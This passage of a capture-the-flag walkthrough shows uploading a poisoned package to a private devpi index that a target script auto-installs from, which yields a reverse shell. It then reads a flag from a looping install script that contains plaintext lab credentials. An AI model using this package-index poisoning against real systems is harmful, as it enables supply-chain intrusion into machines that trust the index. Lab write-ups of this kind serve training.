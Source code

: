 ```bash
cd /home/user/Download/mailsenderhelper
devpi use http://10.1.1.51/emailAdmin/dev
# Please note this is after you authenticate as emailAdmin by finding the password in Question 1
# Make sure you're in the mailsenderhelper package directory
# You need --no-isolation in order to push up to devpi
devpi upload --no-isolation
```

​Shortly after uploading the package, the target connects to your listener and you now have a reverse shell. 

8. Answering Question 2 requires you to look for the flag inside the `/opt/script.sh` file. As you can see, you landed in the `/opt/WorkForUsTemplate/` directory in the new “listening” terminal; therefore, from this terminal, let's back down one directory and read this file.

![](./img/step8.png)

```bash
cd /opt/
cat script.sh
```
These are the contents of the `script.sh` file. `<FLAG_HERE>` is replaced with the flag you are trying to submit.

```yaml
apiVersion: v1
kind: ConfigMap
metadata:
  name: python-tool-script
  namespace: default
data:
  script.sh: |
    #!/bin/bash
    # <FLAG_HERE>
    while true; do
      python3 -m pip install -U -i http://10.1.1.51/emailAdmin/dev/+simple/ --trusted-host 10.1.1.51 mailhelper
      cd /opt
      if [ ! -d "/opt/WorkForUsTemplate" ]; then
         git clone http://work4us:scammersrkewl123@gitea-http:3000/work4us/WorkForUsTemplate.git
         cd /opt/WorkForUsTemplate
      else
         cd /opt/WorkForUsTemplate
         git pull http://work4us:scammersrkewl123@gitea-http:3000/work4us/WorkForUsTemplate.git
      fi
      python3 /opt/WorkForUsTemplate/send_email.py
      sleep 30
    done
```
